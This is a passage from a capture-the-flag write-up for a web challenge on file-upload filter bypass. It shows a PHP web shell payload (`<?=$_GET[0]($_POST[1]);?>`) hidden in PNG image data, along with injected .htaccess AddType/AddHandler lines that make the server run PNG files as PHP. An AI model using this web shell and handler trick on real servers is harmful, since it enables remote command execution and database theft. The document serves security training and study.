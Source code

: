 We understood why is there a button `I screwed-up everything and I want to reset the task`.

Because we really screwed-up the .htaccess file and we need to reset it.

But, if we only upload PNG and JPEG real files and we can modify .htaccess and bypass editing retrictions from it to add new entries, how can we solve this task and get access to the database ?

After a quick search on internet, we found some documents talking about hardcoding php code inside PNG files that we can execute system commands using HTTP parameters based on this injected code `<?=$_GET[0]($_POST[1]);?>`

>Reference: https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

The creator of this technique was really a genious.

We downloaded the existing exploit [xsspng.png](resources/web-1000-unbreakable_uploader/xsspng.png).

Then, we uploaded that PNG file and it was successfull since it was a real PNG file.

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/11.PNG"/>
</p>

We figured out thatwe should change PNG file types using .htaccess so that PNG files will be executed as PHP files.

>Source: https://security.stackexchange.com/a/122937

So, we will use this value as a `target` value

```
test
AddType application/x-httpd-php .png
AddHandler application/x-httpd-php .png
```
